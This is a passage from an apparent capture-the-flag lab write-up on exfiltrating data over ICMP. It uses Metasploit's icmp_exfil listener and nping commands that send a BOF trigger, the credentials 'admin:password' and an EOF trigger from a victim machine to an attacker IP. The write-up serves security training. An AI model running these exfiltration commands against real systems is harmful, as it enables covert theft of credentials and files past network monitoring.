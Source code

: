     # run the module
    msf6 auxiliary(server/icmp_exfil) > run
    ```

    The `BPF_FILTER` option is used so it captures only ICMP packets, `set BPF_FILTER icmp`, and ignore any ICMP packets that have the source IP of the attacking machine, `and not src ATTACKER_IP`.

    We also need to select which network interface to listen to. We can see our network interfaces via the `ifconfig` command:

    ![ifconfig](ifconfig.png)

2. This room has prepared the `icmp.thm.com` machine as the victim for this task, so we can log into it via SSH (first connect to Jumpbox, and from Jumpbox connect to `icmp.thm.com`). This machine has the [NPING](https://nmap.org/nping/) tool installed, which is part of the **NMAP** suite.

    Once logged into the `icmp.thm.com`, we need to send the **BOF trigger** so that Metasploit starts writing to the disk. The **BOF trigger** defaults to `^BOF`, where `^` means at the start of the string, thus, we need to have `BOF` first followed by the filename being sent:

    ```shell
    # send the BOF trigger to the attacking machine
    thm@icmp-host:~$ sudo nping --icmp 10.10.106.32 --data-string "BOFfile.txt" -c 1 
    ```

3. Now that we initiated the disk writing process, we can sent the data we want to exfiltrate, for example, the credentials `admin:password`. Note that we will send the data without converting it to hex first; Metasploit will do it for us:

    ```shell
    # send the data we want to exfiltrate to the attacking machine
    thm@icmp-host:~$ sudo nping --icmp 10.10.106.32 --data-string "admin:password" -c 1 
    ```

4. Finally, we need to send the **EOF trigger**, which defaults to "*^EOF*", to let Metasploit know that we have sent all the data we needed:

    ```shell
    # send the EOF trigger to the attacking machine
    thm@icmp-host:~$ sudo nping --icmp 10.10.106.32 --data-string "EOF" -c 1
    ```

The whole process can be shown below:

![Metasploit Data Exfiltration](metasploit-icmp-transfer.png)

We can check that the data is as it should be:

![Exfiltrated data](loot-file.png)
